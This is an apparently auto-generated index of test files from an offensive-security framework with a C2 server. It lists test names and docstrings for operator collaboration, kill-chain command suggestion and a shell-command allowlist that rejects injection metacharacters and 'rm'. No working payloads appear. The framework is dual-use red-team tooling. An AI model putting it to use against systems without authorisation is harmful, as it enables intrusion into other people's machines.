**Classes:**
- `TestQuickstartExists` (line 87) `class TestQuickstartExists`
- `TestQuickstartContent` (line 95) `class TestQuickstartContent`
- `TestWizardContract` (line 142) `class TestWizardContract`
- `TestCollabModuleExists` (line 170) `class TestCollabModuleExists`
- `TestCollabModuleClasses` (line 181) `class TestCollabModuleClasses`
- `TestEventBus` (line 220) `class TestEventBus`
- `TestLockManager` (line 281) `class TestLockManager`
- `TestOperatorRegistry` (line 332) `class TestOperatorRegistry`
- `TestCollabFlaskRoutes` (line 371) `class TestCollabFlaskRoutes`
- `TestCollabTemplate` (line 430) `class TestCollabTemplate`
- `TestCollabJoinCLICommand` (line 472) `class TestCollabJoinCLICommand`
- `_TestOperator` (line 66) `class _TestOperator(UserMixin)`

**Functions:**
- `_make_app` (line 33) `def _make_app()` - *Build a minimal Flask app with collab_bp registered.

The collab endpoints were hardened with ``flask-login`` auth
(``_collab_login_required`` / ``_collab_permission_required``), so the
test app installs a login manager that auto-authenticates a test
operator on every request. This exercises the real authenticated code
path instead of bypassing the guard.*
- `_install_test_login` (line 54) `def _install_test_login(app)` - *Attach ``flask-login`` with an always-authenticated test operator.

A no-op when ``flask-login`` is unavailable, mirroring the collab
blueprint's own ``_AUTH_AVAILABLE`` fallback so the tests match runtime
behaviour on either configuration.*
- `_load_user` (line 74) `def _load_user(user_id)`
- `_auto_login` (line 78) `def _auto_login()`

**Methods:**
- `test_file_present` (line 88) `def test_file_present(self)`
- `test_not_empty` (line 91) `def test_not_empty(self)`
- `text` (line 97) `def text(self)`
- `test_has_install_section` (line 100) `def test_has_install_section(self, text)`
- `test_has_wizard_section` (line 103) `def test_has_wizard_section(self, text)`
- `test_has_recon_step` (line 106) `def test_has_recon_step(self, text)`
- `test_has_c2_step` (line 109) `def test_has_c2_step(self, text)`
- `test_has_collab_step` (line 112) `def test_has_collab_step(self, text)`
- `test_has_troubleshooting` (line 115) `def test_has_troubleshooting(self, text)`
- `test_mentions_payload_json` (line 118) `def test_mentions_payload_json(self, text)`
- `test_mentions_sessions` (line 121) `def test_mentions_sessions(self, text)`
- `test_five_minutes_promise` (line 124) `def test_five_minutes_promise(self, text)`
- `test_no_hardcoded_ips` (line 127) `def test_no_hardcoded_ips(self)`
- `test_wizard_module_exists` (line 143) `def test_wizard_module_exists(self)`
- `test_wizard_has_run_function` (line 146) `def test_wizard_has_run_function(self)`
- `test_wizard_has_build_readiness` (line 151) `def test_wizard_has_build_readiness(self)`
- `test_wizard_does_not_import_lazyown` (line 156) `def test_wizard_does_not_import_lazyown(self)`
- `test_wizard_does_not_import_lazyc2` (line 160) `def test_wizard_does_not_import_lazyc2(self)`
- `test_module_present` (line 171) `def test_module_present(self)`
- `test_template_present` (line 174) `def test_template_present(self)`
- `test_template_not_empty` (line 177) `def test_template_not_empty(self)`
- `tree` (line 183) `def tree(self)`
- `test_has_event_bus` (line 186) `def test_has_event_bus(self, tree)`
- `test_has_lock_manager` (line 190) `def test_has_lock_manager(self, tree)`
- `test_has_operator_registry` (line 194) `def test_has_operator_registry(self, tree)`
- `test_has_ui_route` (line 198) `def test_has_ui_route(self, tree)`
- `test_has_stream_route` (line 202) `def test_has_stream_route(self, tree)`
- `test_has_publish_route` (line 206) `def test_has_publish_route(self)`
- `test_has_lock_route` (line 210) `def test_has_lock_route(self)`
- `bus` (line 222) `def bus(self)`
- `test_publish_and_receive` (line 227) `def test_publish_and_receive(self, bus)`
- `test_history_replay_on_subscribe` (line 237) `def test_history_replay_on_subscribe(self, bus)`
- `test_recent_returns_correct_count` (line 248) `def test_recent_returns_correct_count(self, bus)`
- `test_reset_clears_history` (line 256) `def test_reset_clears_history(self, bus)`
- `test_full_queue_drops_stale_subscriber` (line 263) `def test_full_queue_drops_stale_subscriber(self, bus)`
- `lm` (line 283) `def lm(self)`
- `test_acquire_grants_first_operator` (line 288) `def test_acquire_grants_first_operator(self, lm)`
- `test_second_operator_denied` (line 291) `def test_second_operator_denied(self, lm)`
- `test_same_operator_can_re_acquire` (line 295) `def test_same_operator_can_re_acquire(self, lm)`
- `test_release_allows_next_operator` (line 299) `def test_release_allows_next_operator(self, lm)`
- `test_release_by_wrong_operator_fails` (line 304) `def test_release_by_wrong_operator_fails(self, lm)`
- `test_expired_lock_releases_automatically` (line 308) `def test_expired_lock_releases_automatically(self, lm)`
- `test_all_locks_returns_list` (line 313) `def test_all_locks_returns_list(self, lm)`
- `test_reset_clears_all_locks` (line 321) `def test_reset_clears_all_locks(self, lm)`
- `reg` (line 334) `def reg(self)`
- `test_join_registers_operator` (line 339) `def test_join_registers_operator(self, reg)`
- `test_leave_marks_inactive` (line 344) `def test_leave_marks_inactive(self, reg)`
- `test_multiple_operators` (line 350) `def test_multiple_operators(self, reg)`
- `test_heartbeat_keeps_alive` (line 355) `def test_heartbeat_keeps_alive(self, reg)`
- `test_reset_clears_all` (line 360) `def test_reset_clears_all(self, reg)`
- `client` (line 373) `def client(self)`
- `test_operators_endpoint_returns_json` (line 378) `def test_operators_endpoint_returns_json(self, client)`
- `test_locks_endpoint_returns_json` (line 385) `def test_locks_endpoint_returns_json(self, client)`
- `test_publish_endpoint_accepts_event` (line 391) `def test_publish_endpoint_accepts_event(self, client)`
- `test_publish_rejects_non_dict_payload` (line 397) `def test_publish_rejects_non_dict_payload(self, client)`
- `test_lock_endpoint_acquires` (line 401) `def test_lock_endpoint_acquires(self, client)`
- `test_unlock_endpoint_releases` (line 407) `def test_unlock_endpoint_releases(self, client)`
- `test_history_endpoint_returns_events` (line 413) `def test_history_endpoint_returns_events(self, client)`
- `test_lock_missing_target_returns_400` (line 420) `def test_lock_missing_target_returns_400(self, client)`
- `html` (line 432) `def html(self)`
- `test_extends_base` (line 435) `def test_extends_base(self, html)`
- `test_has_sse_connect` (line 438) `def test_has_sse_connect(self, html)`
- `test_has_operator_list` (line 441) `def test_has_operator_list(self, html)`
- `test_has_lock_ui` (line 444) `def test_has_lock_ui(self, html)`
- `test_has_event_log` (line 447) `def test_has_event_log(self, html)`
- `test_has_chat_input` (line 450) `def test_has_chat_input(self, html)`
- `test_has_refresh_operators` (line 453) `def test_has_refresh_operators(self, html)`
- `test_has_join_url_display` (line 456) `def test_has_join_url_display(self, html)`
- `test_no_hardcoded_ips` (line 459) `def test_no_hardcoded_ips(self)`
- `command_src` (line 474) `def command_src(self)` - *Text of the module that defines ``do_collab_join``.

The monolith split moved ``do_collab_join`` from ``lazyown.py`` into
``cli/commands/misc_migrated.py`` and later into
``cli/commands/session_ops.py``.*
- `test_collab_join_defined` (line 483) `def test_collab_join_defined(self, command_src)`
- `test_collab_join_uses_lhost` (line 486) `def test_collab_join_uses_lhost(self, command_src)`
- `test_collab_join_uses_c2_port` (line 489) `def test_collab_join_uses_c2_port(self, command_src)`
- `test_collab_join_prints_ui_url` (line 492) `def test_collab_join_prints_ui_url(self, command_src)`
- `test_collab_join_has_docstring` (line 495) `def test_collab_join_has_docstring(self, command_src)`

#### `test_command_allowlist.py`
**Path:** `tests/test_command_allowlist.py`
**File Doc:** *TDD tests for the command allowlist contract.  Contract: ``lazyc2.security.command_allowlist.CommandAllowlist`` gates the ``/api/run`` endpoint so only whitelisted first tokens reach the shell.  Invariants:  1. The allowlist is matched on the first whitespace-delimited token. 2. A blank or non-string command is rejected. 3. Shell metacharacters anywhere in the command are rejected, even if the first token is in the allowlist (defence in depth). 4. Case-insensitive matching is supported. 5. The audit log is a single JSON object per line.*

**Classes:**
- `TestBasicAllow` (line 29) `class TestBasicAllow` - *Verify the happy path.*
- `TestShellMetachars` (line 45) `class TestShellMetachars` - *Verify that metacharacters always result in rejection.*
- `TestEmptyInput` (line 70) `class TestEmptyInput` - *Verify edge cases on the input shape.*
- `TestCaseInsensitive` (line 92) `class TestCaseInsensitive` - *Verify case-insensitive matching.*
- `TestAuditLog` (line 101) `class TestAuditLog` - *Verify the audit log is written line-by-line JSON.*

**Methods:**
- `test_known_command_is_allowed` (line 32) `def test_known_command_is_allowed(self)`
- `test_unknown_command_is_denied` (line 38) `def test_unknown_command_is_denied(self)`
- `test_metachar_rejected` (line 60) `def test_metachar_rejected(self, payload)`
- `test_empty_string_rejected` (line 73) `def test_empty_string_rejected(self)`
- `test_whitespace_only_rejected` (line 79) `def test_whitespace_only_rejected(self)`
- `test_non_string_rejected` (line 85) `def test_non_string_rejected(self)`
- `test_uppercase_token_matches` (line 95) `def test_uppercase_token_matches(self)`
- `test_audit_log_appends_jsonl` (line 104) `def test_audit_log_appends_jsonl(self, tmp_path)`
- `test_audit_log_disabled_is_noop` (line 116) `def test_audit_log_disabled_is_noop(self, tmp_path)`

#### `test_command_allowlist_behavior.py`
**Path:** `tests/test_command_allowlist_behavior.py`
**File Doc:** *BDD behavior scenarios for the command allowlist contract.*

**Functions:**
- `test_given_allowlisted_ping_when_checked_then_allowed` (line 11) `def test_given_allowlisted_ping_when_checked_then_allowed()` - *Given a whitelisted first token, the gate allows the command.*
- `test_given_rm_when_checked_then_denied` (line 18) `def test_given_rm_when_checked_then_denied()` - *Given a non-allowlisted verb, the gate denies.*
- `test_given_injection_when_checked_then_denied` (line 26) `def test_given_injection_when_checked_then_denied(tmp_path)` - *Given a metachar injection, the gate denies and the attempt is audited.*

#### `test_command_chain.py`
**Path:** `tests/test_command_chain.py`
**File Doc:** *Tests for cli/command_chain.py.  The chain module is decomposed into single-responsibility collaborators so each level of behaviour is covered in isolation, plus a small set of facade-level tests that exercise the composition wired in CommandChain.  Tests follow the same conventions as ``tests/test_reactive_hints.py`` and ``tests/test_exploration_engine.py`` — fakes are injected via constructor arguments, no monkeypatching of module globals.*

**Classes:**
- `_FakeEngine` (line 43) `class _FakeEngine` - *Minimal ExplorationEngine double — only the methods the chain uses.*

**Functions:**
- `_svc` (line 39) `def _svc(service, port, host, proto)`
- `test_normalise_strips_do_prefix_and_extra_tokens` (line 71) `def test_normalise_strips_do_prefix_and_extra_tokens()`
- `test_prerequisites_known_and_unknown` (line 78) `def test_prerequisites_known_and_unknown()`
- `test_missing_prerequisites_skips_already_run` (line 86) `def test_missing_prerequisites_skips_already_run()`
- `test_static_next_registry_uses_killchain_table` (line 93) `def test_static_next_registry_uses_killchain_table()`
- `test_static_next_registry_phase_priority_fallback` (line 101) `def test_static_next_registry_phase_priority_fallback()`
- `test_service_next_resolver_maps_known_services_only` (line 108) `def test_service_next_resolver_maps_known_services_only()`
- `test_service_next_resolver_dedupes_repeated_services` (line 118) `def test_service_next_resolver_dedupes_repeated_services()`
- `test_dynamic_next_resolver_orders_static_before_dynamic` (line 125) `def test_dynamic_next_resolver_orders_static_before_dynamic()`
- `test_dynamic_next_resolver_filters_history` (line 136) `def test_dynamic_next_resolver_filters_history()`
- `test_dynamic_next_resolver_empty_verb_prefers_phase_priority` (line 143) `def test_dynamic_next_resolver_empty_verb_prefers_phase_priority()`
- `test_dynamic_next_resolver_includes_unexplored_addons_and_tools` (line 152) `def test_dynamic_next_resolver_includes_unexplored_addons_and_tools()`
- `test_dynamic_next_resolver_phase_fallback_when_no_signal` (line 181) `def test_dynamic_next_resolver_phase_fallback_when_no_signal()`
- `test_dynamic_next_resolver_respects_limit` (line 189) `def test_dynamic_next_resolver_respects_limit()`
- `test_chain_facade_returns_serialisable_view` (line 196) `def test_chain_facade_returns_serialisable_view()`
- `test_chain_missing_prerequisites_when_history_empty` (line 207) `def test_chain_missing_prerequisites_when_history_empty()`
- `test_next_step_to_dict_round_trip` (line 213) `def test_next_step_to_dict_round_trip()`
- `test_chain_config_defaults_are_isolated_per_instance` (line 218) `def test_chain_config_defaults_are_isolated_per_instance()`

**Methods:**
- `__init__` (line 46) `def __init__(self, services, addons, tools, history)`
- `services` (line 58) `def services(self, target)`
- `unexplored_addons` (line 61) `def unexplored_addons(self, target)`
- `unexplored_tools` (line 64) `def unexplored_tools(self, target)`
- `history` (line 67) `def history(self)`

#### `test_command_form.py`
**Path:** `tests/test_command_form.py`
**File Doc:** *Tests for cli/command_form.py.  Exercises field selection, default propagation from payload, command assembly and the runner override.*

**Functions:**
- `_index` (line 23) `def _index()`
- `test_fields_default_set_when_command_unknown` (line 32) `def test_fields_default_set_when_command_unknown()` - *Commands without a per-command field set fall back to the default.*
- `test_fields_specific_set_for_known_command` (line 44) `def test_fields_specific_set_for_known_command()` - *Per-command sets win over the default.*
- `test_initial_values_come_from_payload` (line 57) `def test_initial_values_come_from_payload()` - *Fields are pre-populated from the matching payload key.*
- `test_overrides_lists_diverging_field_payload_pairs` (line 70) `def test_overrides_lists_diverging_field_payload_pairs()` - *Diverging values are surfaced as ``(payload_key, value)`` tuples.*
- `test_overrides_empty_when_values_match_payload` (line 84) `def test_overrides_empty_when_values_match_payload()` - *Untouched fields produce no overrides.*
- `test_verb_line_returns_just_verb_without_extras` (line 96) `def test_verb_line_returns_just_verb_without_extras()` - *``verb_line`` strips ``do_`` and appends extra args when present.*
- `test_build_command_preview_renders_annotations_and_verb` (line 109) `def test_build_command_preview_renders_annotations_and_verb()` - *The preview string keeps overrides + verb on a single readable line.*
- `test_is_valid_true_when_command_known` (line 124) `def test_is_valid_true_when_command_known()` - *A name present in the index is reported as valid.*
- `test_is_valid_false_for_unknown_command` (line 136) `def test_is_valid_false_for_unknown_command()` - *An unknown verb is reported as invalid.*
- `test_launch_form_runner_returns_state` (line 147) `def test_launch_form_runner_returns_state()` - *The runner override lets tests bypass Textual and inspect overrides.*
- `test_build_state_loads_from_default_index` (line 162) `def test_build_state_loads_from_default_index(monkeypatch)` - *The factory wires through ``cli.palette.load_index`` when no override given.*
- `runner` (line 151) `def runner(context)`

#### `test_command_namespace_uniqueness.py`
**Path:** `tests/test_command_namespace_uniqueness.py`
**File Doc:** *Cross-CommandSet command-name uniqueness contract.  cmd2 refuses to register a second ``do_<name>`` once a command exists (and aborts the whole CommandSet mid-registration), which happened live with ``do_lazy_evidence`` defined by both ``lazyops`` and ``lazyloop``. This test parses ``cli/commands/*.py`` and fails on any ``do_*`` name defined by more than one class.*

**Functions:**
- `_is_command_set` (line 19) `def _is_command_set(node)` - *Whether the class extends a ``*CommandSet`` base (cmd2 scope).*
- `_command_definitions` (line 28) `def _command_definitions()` - *Map every CommandSet ``do_*`` name to its ``file:class`` owners.*
- `test_no_command_defined_by_two_command_sets` (line 42) `def test_no_command_defined_by_two_command_sets()` - *A ``do_*`` name must have exactly one owning CommandSet class.*

#### `test_command_palette.py`
**Path:** `tests/test_command_palette.py`
**File Doc:** *Command palette test suite.  Single, self-contained test surface for the operator command palette feature spanning three layers:  - The static AST generator in ``scripts/build_command_index.py`` and the on-disk artefact ``cli/command_index.json``. - The read-only loader API in ``cli/palette.py``. - The pure parser, query, renderer and completer in ``cli/palette_command.py`` and the thin glue wired into ``lazyown.py``.  Architecture follows the same SOLID partitioning as the production code:  - :class:`PaletteSuiteConfig` is the only place where paths, expected invariants, schema fields, AST conventions and known legacy duplicates live. Every test class consumes the config rather than redeclaring literals. - One test class per responsibility so a failure points at one specific contract — index invariants, legacy duplicates, generator determinism, generator helpers, loader API, argument parser, index query, renderer, completer, top-level dispatcher, ``lazyown.py`` wiring. - Behavioural tests for the parser, query, renderer and completer run against a synthetic in-memory index produced by :func:`_build_synthetic_index`, so they remain decoupled from the size and contents of the live ``cli/command_index.json``.*

**Classes:**
- `PaletteSuiteConfig` (line 43) `class PaletteSuiteConfig` - *Centralised constants for the entire palette suite.

Every literal the suite depends on lives here so adding a new probe
or moving the index file means editing one location.*
- `TestCommandIndexInvariants` (line 412) `class TestCommandIndexInvariants` - *Hard guarantees about the on-disk command-index document.*
- `TestKnownLegacyDuplicates` (line 473) `class TestKnownLegacyDuplicates` - *The two pre-existing legacy duplicates must remain visible.*
- `TestGeneratorDeterminism` (line 505) `class TestGeneratorDeterminism` - *A second build must produce a byte-identical document.*
- `TestGeneratorHelpers` (line 524) `class TestGeneratorHelpers` - *Pure-function unit tests for the small helpers in the generator.*
- `TestPaletteLoader` (line 566) `class TestPaletteLoader` - *Behaviour of :mod:`cli.palette` against the live index.*
- `TestPaletteArgumentParser` (line 647) `class TestPaletteArgumentParser` - *Routing rules for raw command lines.*
- `TestPaletteIndexQuery` (line 729) `class TestPaletteIndexQuery` - *Behaviour of :class:`PaletteIndexQuery` over a synthetic index.*
- `TestPaletteRenderer` (line 795) `class TestPaletteRenderer` - *Plain-text formatting of query results.*
- `TestPaletteCompleter` (line 879) `class TestPaletteCompleter` - *Tab-completion candidate selection.*
- `TestPaletteEntryPoint` (line 965) `class TestPaletteEntryPoint` - *The top-level :func:`render` dispatcher.*
- `TestLazyOwnWiring` (line 1014) `class TestLazyOwnWiring` - *Static verification that ``lazyown.py`` exposes the palette glue.*
- `TestPaletteJsonRenderer` (line 1075) `class TestPaletteJsonRenderer` - *Behaviour of :func:`render_json` and :class:`PaletteJsonRenderer`.*
- `TestPaletteViewBuilder` (line 1192) `class TestPaletteViewBuilder` - *Behaviour of :func:`build_palette_view`.*
- `TestMcpPaletteWiring` (line 1338) `class TestMcpPaletteWiring` - *Static verification of the MCP ``lazyown_palette`` tool wiring.*
- `TestC2PaletteRoute` (line 1405) `class TestC2PaletteRoute` - *Static verification of the C2 ``/palette`` route + template.*
- `TestPaletteGraphLoader` (line 1523) `class TestPaletteGraphLoader` - *Behaviour of :mod:`cli.palette_graph`.*
- `TestPaletteDetailEnrichment` (line 1643) `class TestPaletteDetailEnrichment` - *Renderers must surface graph-derived ``calls`` and ``related`` lists.*
- `TestPaletteNextMode` (line 1751) `class TestPaletteNextMode` - *``--next`` recommends the phase that follows in the kill-chain order.*
- `TestC2PaletteApiRoute` (line 1873) `class TestC2PaletteApiRoute` - *Static verification of the JSON ``/api/palette`` endpoint.*
- `TestBaseTemplateOverlay` (line 1920) `class TestBaseTemplateOverlay` - *Static verification of the global Cmd+K / Ctrl+K overlay markup.*
- `TestMcpPaletteDescription` (line 1952) `class TestMcpPaletteDescription` - *The MCP description must advertise the new modes.*
- `TestPaletteTelemetryLoader` (line 2015) `class TestPaletteTelemetryLoader` - *Behavioural CSV parser, recents and co-occurrence.*
- `TestPaletteDetailTelemetryRendering` (line 2140) `class TestPaletteDetailTelemetryRendering` - *The detail renderer surfaces telemetry rows when available.*
- `TestC2PaletteApiRateLimit` (line 2198) `class TestC2PaletteApiRateLimit` - *The JSON catalogue endpoint must be rate-limited.*
- `TestBaseTemplateOverlayTelemetry` (line 2225) `class TestBaseTemplateOverlayTelemetry` - *The Cmd+K overlay surfaces telemetry without breaking existing markers.*
- `TestPaletteEnrichmentBlend` (line 2249) `class TestPaletteEnrichmentBlend` - *``_enrich_detail_entry`` blends graph and telemetry data.*

**Functions:**
- `suite_config` (line 205) `def suite_config()` - *Single, immutable configuration shared by every test class.*
- `_ensure_repo_on_path` (line 211) `def _ensure_repo_on_path(suite_config)` - *Make repository top-level packages importable for the suite.*
- `index_document` (line 218) `def index_document(suite_config)` - *The on-disk command-index document, loaded once per session.*
- `_iter_command_modules` (line 228) `def _iter_command_modules(config)` - *Yield every public ``cli/commands/*.py`` module path.*
- `_collect_do_method_names` (line 237) `def _collect_do_method_names(path, prefix)` - *Return every direct ``do_*`` method name in any class in ``path``.

Nested ``http.server`` request handlers expose ``do_GET``/``do_POST``
style methods that are not operator commands, so their classes are
skipped to mirror the production ``scripts/build_command_index.py``
scanner.*
- `ast_command_names` (line 272) `def ast_command_names(suite_config)` - *Static AST sweep of every operator-visible ``do_*`` name.*
- `_build_synthetic_index` (line 281) `def _build_synthetic_index(config)` - *Construct a small, deterministic in-memory index for behaviour tests.

Shape mirrors the schema of the on-disk artefact so every consumer of
the production index can be exercised without loading the full
catalogue.*
- `synthetic_index` (line 387) `def synthetic_index(suite_config)` - *In-memory index used by parser/query/renderer/completer tests.*
- `_extract_method_body` (line 392) `def _extract_method_body(src, name)` - *Return the textual body of a method defined in ``src``.

Args:
    src: Full source text of a Python module.
    name: Method name to locate.

Returns:
    The slice between the ``def <name>(...)`` line and the next sibling
    ``def`` / decorator at the same indentation, or the empty string
    when the method is missing.*
- `_build_synthetic_graph` (line 1484) `def _build_synthetic_graph()` - *Construct a tiny in-memory graphify document for neighbour tests.

Two ``do_*`` commands share two helpers and one diverges; the file label
and a noisy ``.cmd()`` callee verify the renderer's exclusion logic.*
- `synthetic_graph` (line 1518) `def synthetic_graph()` - *In-memory graph used by :class:`TestPaletteGraph`.*
- `_write_synthetic_csv` (line 1970) `def _write_synthetic_csv(target)` - *Materialise a deterministic session-report CSV used by telemetry tests.

The shape mirrors the real artefact written by
:meth:`LazyOwnShell.log_command_to_csv` — a single header row followed by
a chronological sequence of invocations. The fixture covers:

- repeated invocations (``do_lazynmap`` × 3) for run-count assertions,
- co-occurrence within the default window (``do_lazynmap`` → ``do_smbclient``),
- mixed prefixed/non-prefixed forms in the ``command`` column,
- excluded sentinel verbs (``exit``, blank rows) that must be ignored.*
- `synthetic_telemetry_path` (line 1998) `def synthetic_telemetry_path(tmp_path)` - *Yield a path to a freshly-written synthetic telemetry CSV.*
- `_reset_telemetry_cache` (line 2006) `def _reset_telemetry_cache()` - *Reset the lru_cache so every telemetry test sees its own CSV.*
- `blocking_import` (line 2260) `def blocking_import(name)`

**Methods:**
- `repo_root` (line 159) `def repo_root(self)` - *Absolute path to the repository root.*
- `index_path` (line 164) `def index_path(self)` - *Absolute path to the on-disk command index JSON.*
- `lazyown_path` (line 169) `def lazyown_path(self)` - *Absolute path to the legacy ``lazyown.py`` entry point.*
- `cli_commands_dir` (line 174) `def cli_commands_dir(self)` - *Directory holding the modular phase ``CommandSet`` files.*
- `mcp_path` (line 179) `def mcp_path(self)` - *Absolute path to the MCP server entry point.*
- `lazyc2_path` (line 184) `def lazyc2_path(self)` - *Absolute path to the C2 web server entry point.*
- `palette_template_path` (line 189) `def palette_template_path(self)` - *Absolute path to the C2 palette Jinja2 template.*
- `base_template_path` (line 194) `def base_template_path(self)` - *Absolute path to the shared C2 base layout template.*
- `graphify_path` (line 199) `def graphify_path(self)` - *Absolute path to the graphify export consumed by neighbour lookups.*
- `test_schema_version_matches_config` (line 415) `def test_schema_version_matches_config(self, index_document, suite_config)` - *Schema version is pinned and must match the configured expectation.*
- `test_top_level_keys_present` (line 421) `def test_top_level_keys_present(self, index_document, suite_config)` - *Every required top-level key is present in the document.*
- `test_totals_match_command_list` (line 426) `def test_totals_match_command_list(self, index_document)` - *``totals`` is consistent with the underlying command list.*
- `test_required_command_fields` (line 435) `def test_required_command_fields(self, index_document, suite_config)` - *Each command entry exposes the full required field set.*
- `test_phase_buckets_match_commands` (line 444) `def test_phase_buckets_match_commands(self, index_document)` - *``phase_to_commands`` is exactly derivable from ``commands``.*
- `test_no_command_lost_vs_ast` (line 452) `def test_no_command_lost_vs_ast(self, index_document, ast_command_names)` - *The index must hold every command an AST sweep can discover.*
- `test_unique_count_matches_ast` (line 464) `def test_unique_count_matches_ast(self, index_document, ast_command_names)` - *The unique-command total agrees with the AST sweep.*
- `test_duplicate_names_listed` (line 476) `def test_duplicate_names_listed(self, index_document, suite_config)` - *Each known legacy duplicate is reported in ``duplicates``.*
- `test_duplicate_lines_match` (line 481) `def test_duplicate_lines_match(self, index_document, suite_config)` - *Duplicate locations must match the recorded line numbers.*
- `test_duplicate_marked_in_command_list` (line 488) `def test_duplicate_marked_in_command_list(self, index_document, suite_config)` - *Each duplicate name appears with ``duplicate_of`` set.*
- `test_one_canonical_per_duplicate` (line 495) `def test_one_canonical_per_duplicate(self, index_document, suite_config)` - *Exactly one canonical (non-shadowed) entry survives per name.*
- `test_render_document_is_idempotent` (line 508) `def test_render_document_is_idempotent(self)` - *Two consecutive builds produce equal documents.*
- `test_check_mode_passes_on_committed_index` (line 516) `def test_check_mode_passes_on_committed_index(self, index_document)` - *A fresh build must equal the committed JSON byte-for-byte.*
- `test_summary_truncates_to_max_chars` (line 527) `def test_summary_truncates_to_max_chars(self, suite_config)` - *Long docstrings are truncated to the configured maximum.*
- `test_summary_first_line_only` (line 537) `def test_summary_first_line_only(self)` - *Only the first non-empty docstring line is captured.*
- `test_resolve_category_constant_name` (line 544) `def test_resolve_category_constant_name(self)` - *A category constant resolves through the lookup table.*
- `test_resolve_category_string_literal` (line 551) `def test_resolve_category_string_literal(self)` - *A literal-string category is returned verbatim.*
- `test_resolve_category_missing` (line 558) `def test_resolve_category_missing(self)` - *A method with no category decorator yields ``None``.*
- `setup_method` (line 569) `def setup_method(self)` - *Reset the LRU cache so each test sees a fresh load.*
- `test_load_index_returns_document` (line 575) `def test_load_index_returns_document(self, suite_config)` - *The loader returns a document with the pinned schema version.*
- `test_all_commands_excludes_duplicates_by_default` (line 582) `def test_all_commands_excludes_duplicates_by_default(self)` - *Default listing omits shadowed duplicate entries.*
- `test_all_commands_with_duplicates_includes_them` (line 589) `def test_all_commands_with_duplicates_includes_them(self)` - *Explicit opt-in returns the raw method-level list.

The delta between the canonical list and the include-duplicates
list equals the number of duplicate occurrences across every
duplicate name, not the count of unique duplicate names — a name
present in three places contributes two duplicate entries.*
- `test_filter_by_phase_returns_only_matching_phase` (line 604) `def test_filter_by_phase_returns_only_matching_phase(self, suite_config)` - *Filter result rows all carry the requested phase.*
- `test_filter_by_phase_unknown_returns_empty` (line 612) `def test_filter_by_phase_unknown_returns_empty(self)` - *Unknown phases yield an empty list, not an exception.*
- `test_get_resolves_with_or_without_prefix` (line 618) `def test_get_resolves_with_or_without_prefix(self, suite_config)` - *The ``get`` helper accepts both ``do_x`` and ``x`` forms.*
- `test_missing_index_raises_command_index_error` (line 628) `def test_missing_index_raises_command_index_error(self, tmp_path)` - *A missing index path raises :class:`CommandIndexError`.*
- `test_malformed_json_raises_command_index_error` (line 636) `def test_malformed_json_raises_command_index_error(self, tmp_path, suite_config)` - *Invalid JSON content raises :class:`CommandIndexError`.*
- `parser` (line 651) `def parser(self)` - *A parser bound to the default render config.*
- `test_empty_line_routes_to_overview` (line 657) `def test_empty_line_routes_to_overview(self, parser, suite_config)` - *Empty input always produces the overview.*
- `test_known_phase_token_routes_to_phase` (line 664) `def test_known_phase_token_routes_to_phase(self, suite_config, parser)` - *A single token that matches a phase routes to phase mode.*
- `test_unknown_token_routes_to_search` (line 673) `def test_unknown_token_routes_to_search(self, suite_config, parser)` - *A non-phase token routes to fuzzy search.*
- `test_phase_with_query_token` (line 681) `def test_phase_with_query_token(self, suite_config, parser)` - *A phase plus a second token narrows the listing.*
- `test_search_flag_routes_to_search` (line 691) `def test_search_flag_routes_to_search(self, suite_config, parser)` - *The ``--search`` flag forces search mode.*
- `test_info_flag_routes_to_detail` (line 700) `def test_info_flag_routes_to_detail(self, suite_config, parser)` - *The ``--info`` flag forces detail mode.*
- `test_phase_match_is_case_insensitive` (line 712) `def test_phase_match_is_case_insensitive(self, suite_config, parser)` - *Phase matching does not depend on letter case.*
- `test_malformed_quote_does_not_raise` (line 721) `def test_malformed_quote_does_not_raise(self, suite_config, parser)` - *Unterminated quotes degrade gracefully to whitespace split.*
- `query` (line 733) `def query(self, synthetic_index)` - *A fresh query bound to the synthetic index.*
- `test_commands_excludes_duplicates` (line 739) `def test_commands_excludes_duplicates(self, query)` - *The canonical command list contains no shadowed duplicates.*
- `test_phases_returns_sorted` (line 744) `def test_phases_returns_sorted(self, query, suite_config)` - *Phases are returned in deterministic alphabetical order.*
- `test_phase_counts_match_phase_buckets` (line 748) `def test_phase_counts_match_phase_buckets(self, query, synthetic_index)` - *Reported counts equal the unique names per phase bucket.*
- `test_in_phase_filters_to_target` (line 753) `def test_in_phase_filters_to_target(self, query, suite_config)` - *``in_phase`` returns only commands carrying the target phase.*
- `test_search_substring_match` (line 759) `def test_search_substring_match(self, query, suite_config)` - *Substring search hits both names and summaries.*
- `test_search_zero_limit_returns_empty` (line 764) `def test_search_zero_limit_returns_empty(self, query)` - *Zero limit short-circuits to empty results.*
- `test_search_negative_limit_returns_empty` (line 768) `def test_search_negative_limit_returns_empty(self, query)` - *Negative limit short-circuits to empty results.*
- `test_detail_with_prefix` (line 772) `def test_detail_with_prefix(self, query, suite_config)` - *Detail lookup with the explicit ``do_`` prefix succeeds.*
- `test_detail_without_prefix` (line 779) `def test_detail_without_prefix(self, query, suite_config)` - *Detail lookup auto-prefixes when ``do_`` is absent.*
- `test_detail_unknown_returns_none` (line 786) `def test_detail_unknown_returns_none(self, query)` - *Unknown lookup targets yield ``None`` instead of raising.*
- `test_detail_empty_returns_none` (line 790) `def test_detail_empty_returns_none(self, query)` - *Empty lookup target yields ``None``.*
- `renderer` (line 799) `def renderer(self)` - *A renderer bound to the default config.*
- `test_overview_lists_every_phase` (line 805) `def test_overview_lists_every_phase(self, renderer, suite_config)` - *Overview output mentions every phase passed in.*
- `test_overview_empty_returns_only_header` (line 812) `def test_overview_empty_returns_only_header(self, renderer)` - *Empty input collapses to the configured header line.*
- `test_phase_listing_includes_header` (line 819) `def test_phase_listing_includes_header(self, renderer, suite_config)` - *Phase listing starts with the configured prefix and target.*
- `test_phase_listing_empty_uses_empty_message` (line 830) `def test_phase_listing_empty_uses_empty_message(self, renderer, suite_config)` - *Empty phase listing surfaces the dedicated empty marker.*
- `test_search_includes_query_in_header` (line 838) `def test_search_includes_query_in_header(self, renderer)` - *Search output reflects the query string in the header.*
- `test_search_empty_uses_empty_message` (line 847) `def test_search_empty_uses_empty_message(self, renderer)` - *Empty search surfaces the dedicated empty marker.*
- `test_detail_renders_every_label` (line 855) `def test_detail_renders_every_label(self, renderer, suite_config)` - *Detail view mentions every recorded label of the entry.*
- `test_detail_missing_returns_configured_message` (line 871) `def test_detail_missing_returns_configured_message(self, renderer)` - *``None`` entry surfaces the configured detail-missing message.*
- `completer` (line 883) `def completer(self)` - *A completer bound to the default config.*
